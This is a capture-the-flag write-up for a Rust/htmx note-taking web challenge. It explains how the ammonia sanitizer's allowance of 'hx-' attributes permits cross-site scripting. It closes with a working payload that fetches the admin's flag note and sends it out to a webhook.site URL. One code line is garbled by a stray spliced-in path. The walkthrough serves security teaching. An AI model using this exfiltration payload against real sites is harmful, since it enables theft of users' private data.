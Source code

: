 ```rust
    )
}
```

In the **get_note()** function, it checks if the path is equal to `/note/flag` ,  and checks the session is equal to admins’ session then the flag is returned else **"You are not allowed to read this note”** message ****is returned. So only an admin can visit the  `/note/flag` endpoint.

In the **upload_note()** function, sanitization is applied on the body of the note using the ammonia parser. Ammonia is a whitelist-based HTML sanitization library in rust https://github.com/rust-ammonia/ammonia/ .

```jsx
let safe = ammonia::Builder::new()
        .tags(hashset!["h1", "p", "div"])
        .add_generic_attribute_prefixes(&["hx-"])
        .clean(&body)
        .to_snote/bab8ac3ff29e46f9e5ae1be75bc4e6f6c608214fc4ada541194404c5150f86e9tring();
```

In the above code snippet, only `<h1>` `<p>` and `<div>` is allowed. Also any attribute starting with `hx-` will be allowed. 

In the given source code, htmx library https://htmx.org/ is used, which is used for building web applications with native JavaScript.

In note.html, the hx- attribute is used.

```jsx
<div 
    class="note-body glow-red note-body-loading" 
    hx-get="/api/note/" 
    hx-on::config-request="event.detail.path += window.location.pathname.split('/').pop()"
    hx-on::after-swap="let l = event.detail.target;
    l.parentNode.classList.add('note-body-done', 'glow-green');
    l.parentNode.classList.remove('note-body-loading', 'glow-red'); 
    "
    hx-trigger="load delay:0.001s"
    hx-target="find #content">
<div id="content"></div>
```

`hx-get` → htmx fetches content from **/api/note** endpoint.

`hx-on:config-request`→ Sets up an event handler for the "config-request" event. When this event is triggered, the provided JavaScript code will be executed.

`hx-trigger`→This attribute specifies when the request should be triggered.

`hx-target`→ Specifies where the response from the server should be placed in the DOM.

We can use `hx-on` to execute the javascript code. Since `<div>` and `hx-` is allowed in the ammonia parser, we can use this to get xss.

**Final Payload**
Create a note with the following content.

```jsx
<div
 hx-get="/api/note/flag" 
 hx-on::load="fetch('/api/note/flag').then(x => x.text()).then((x)=>location='https://webhook.site/7a888fca-6ff6-48d0-b2af-33f47ab05ab5?x='+encodeURIComponent(x)) "
 hx-trigger="load delay:0.001s"
 hx-target="this">
</div>
```
